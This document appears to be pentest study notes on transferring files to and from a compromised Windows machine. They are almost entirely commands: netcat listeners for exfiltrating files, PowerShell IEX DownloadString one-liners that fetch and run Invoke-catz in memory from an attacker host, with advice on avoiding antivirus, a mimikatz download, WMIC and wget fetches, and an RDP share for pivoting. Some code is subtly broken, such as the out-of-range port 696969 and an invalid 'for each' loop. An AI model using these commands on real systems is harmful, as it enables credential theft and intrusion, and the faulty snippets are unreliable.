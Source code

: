 # Files transfer

Once you get the initial access to a machine, one of the main issues students encounters is the lack of knowledge on how to transfer files between the attacker machine & the victim machine (and vice versa).
This simple knowledge is crucial to continue the enumeration of the victim machine, as well as to exfiltrate any important file we may encounter.
This method works on almost all versions of Windows, if the specific method doesn’t work, try the next one.

## Using Netcat

This is one of the more basic but lacking methods, as there is no timer nor indicator of the file transmission status, you need to guess the time it takes for the file to complete transmitting & after it finish, you need to make sure the file didn’t get corrupted, check the hashes of both files to validate the transmission was completed successfully.

> Set up a listener on the receiving machine, the FILENAME will be the output file.

```bash
nc -nlvp 696969 > FILENAME
```

> Send the file from the sender machine, the IP & Port of the listener needs to match & the path of the filename you want to send.

```bash
nc -nv RECIVMACHINEIP 696969 < /path/of/FILENAME
```

## Powershell

Once you landed on a low-level shell, you can start PowerShell or put the powershell.exe in front of the commands & will work as well.
You can get the files just on memory or written on disc (**DownloadString** vs **DownloadFile**), depending on your purpose.

You need to start a web server on your attacking machine to download the files from there, it’s a good & easy way to download your required files if you put them in a single path on your attacking machine & you keep them updated there.

> You can start the web server using.

```bash
Pepega@pepega[/attackMachine]$ cd /Path/of/yourfiles
Pepega@pepega[/attackMachine]$ python3 -m http.server 6969

Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
```

> You can change the port for anyone of your choice.

### DownloadString vs DownloadFile

If you don’t want the file to touch the disk & maybe trigger an alert or the AV, just get the file in memory & us it from there.

> If you are already on a PS shell, you can avoid using powershell.exe

```PS
PS C:\Users\LilPepega> IEX (New-Object System.Net.WebClient).DownloadString('http://$IP/Invoke-catz.ps1')
```

```cmd
C:\Windows\System32> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://$IP/Invoke-catz.ps1')
```

> The $IP is the one from your attacking machine & port of your web server.

```cmd
C:\Windows\System32> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$IP/mimikatz.exe', 'C:\Windows\tasks\katz.exe')
```

```PS
 PS C:\Users\LilPepega>  (New-Object System.Net.WebClient).DownloadFile('http://$IP/mimikatz.exe', 'C:\Windows\tasks\katz.exe')
```

The second path on the command is where the file is going to be downloaded, you can give it any name, but always try to use either:

- C:\Windows\tasks\
- C:\Windows\temp\

## WMIC

> Important

The WMI command-line (WMIC) utility is deprecated as of Windows 10, version 21H1, and as of the 21H1 semi-annual channel release of Windows Server. This utility is superseded by Windows PowerShell for WMI. This deprecation applies only to the WMI command-line (WMIC) utility; Windows Management Instrumentation (WMI) itself is not affected.

If the machine you are attacking still have WMIC, you can use it as follows:

```PS
PS C:\Users\LilPepega>  wmic os get /format:"http://$IP/CatoUser.bat"
```

## WGET

If Wget is installed on the system, you can use it as follows:

```PS
PS C:\Users\LilPepega> wget $IP/nc.exe -o nc.exe
```

```cmd
C:\Windows\System32> powershell wget $IP/nc.exe -o nc.exe
```

## RDP

If you have the luck to have graphical(interactive) access to the machine, via RDP, you can automatically mount a share to transfer files, this is especially useful if you are pivoting and don’t have direct access to the victim machine.

```bash
xfreerdp /v:$IP /u:USERNAME /d:DOMAIN +clipboard +drives /drive:root,/home/kali /dynamic-resolution
```

## Automating the task

We can automate the task to download multiple files just using one script, just modify the file names & run it on the victim machine.

```PS
$baseURL = "http://IP/"
$fileNames = @("File1","File2","File3")
$downloadPath = "C:\windows\tasks"

for each ($fileName in $fileNames){
    $url = $baseURL + $fileName
    $filePath = Join-Path $downloadPath $fileName
    Invoke-WebRequest -Uri $url -OutFile $filePath
    Write-Host "Downloaded $fileName to $filePath"
}

```
